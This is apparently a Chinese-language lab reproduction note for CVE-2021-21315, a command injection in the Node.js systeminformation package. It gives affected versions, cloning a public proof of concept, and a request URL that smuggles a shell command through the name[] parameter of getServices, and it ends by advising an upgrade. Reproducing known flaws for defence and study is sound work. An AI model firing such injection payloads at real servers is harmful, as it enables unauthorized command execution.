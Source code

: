 ### CVE-2021-21315 Linux sudoNode.js命令注入漏洞复现

漏洞简介
      Node.js-systeminformation是用于获取各种系统信息的Node.JS模块,它包含多种轻量级功能，可以检索详细的硬件和系统相关信息。
      2021年02月24日，npm团队发布安全公告，Node.js库中的systeminformation软件包中存在一个命令注入漏洞CVE-2021-21315，攻击者可以通过在未经过滤的参数中注入Payload来执行系统命令，最终获取服务器最高权限。

影响版本
    Systeminformation < 5.3.1
![image-20211013204415764](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211013204415764.png)

# **漏洞复现**

下载poc

git clone https:*//github.com/ForbiddenProgrammer/CVE-2021-21315-PoC.git*

 nodejs开启http 

```
node index.js
```



```u
http://192.168.1.192:23854/api/getServices?name[]=$(echo%20-e%20%E2%80%98NULL%E2%80%99%20%3E%201.txt)
```

![image-20211013204944663](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211013204944663.png)

![img](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5C20210409142204301.png)

# 

修复： 

升级到安全版本